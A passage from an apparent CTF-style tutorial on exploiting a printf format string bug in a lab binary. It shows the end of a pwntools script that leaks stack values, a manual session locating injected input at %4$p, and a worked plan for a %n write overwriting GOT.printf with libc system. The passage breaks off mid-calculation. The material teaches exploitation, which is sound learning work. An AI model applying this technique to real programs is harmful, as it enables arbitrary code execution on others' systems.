 ```python
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

This script will iterate 100 times and fuzz `$x`, so printing out values on the stack in <mark style="color:yellow;">hex format</mark>.

We want to focus on the `%n` format specifier.

<mark style="color:yellow;">When performing this kind of technique, we want to fuzz and print out values on the stack when injecting arbitrary data to see where our data/input ends up</mark>.

#### Manual Approach (just messing with the program)

We can <mark style="color:yellow;">incrementally utilize position-based parameters with our input and print out</mark> <mark style="color:yellow;">or inject</mark> in a specific part of the stack.

**See an example below**:

<mark style="color:yellow;">Pay attention to the decrementing value immediately after the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`%`</mark>. We start with `%6` and go to `%4` <mark style="color:yellow;">in order to identify where our input ends up on the stack</mark>.

```
./got_overwrite

AAAA%6$p
AAAA0xf7fb000a
AAAA%5$p
AAAA0x70243525
AAAA%4$p
AAAA0x41414141
```

Okay cool, what is 41414141 converted to ASCII?

We can use the **pwntools** tool, `unhex 41414141` to figure this out.

`AAAA`!

Great, <mark style="color:yellow;">we have identified where our data is being injected onto the stack</mark>.

So we need to answer what place the input gets placed into so we can identify the address that can then be used for the `%n` write operation.

### Manual Exploitation Methodology -- `printf()` write exploit w/ `%n`

We can use the following methodology to help us craft an exploit manually:

{% code overflow="wrap" %}
```
# Need to overwrite 0x0804c00c (GOT.printf) with 0xf7dff040 (LIBC.system)

# It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order)
# and 0xf040 (61504) @ 0x0804c00c (low order)

# Now, we have to figure out the value to set for the padding. Here is the formula :
[The value we want] - [The bytes alredy wrote] = [The value to set].

# Let’s start with the low order bytes :
It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

# Then, the high order bytes :
```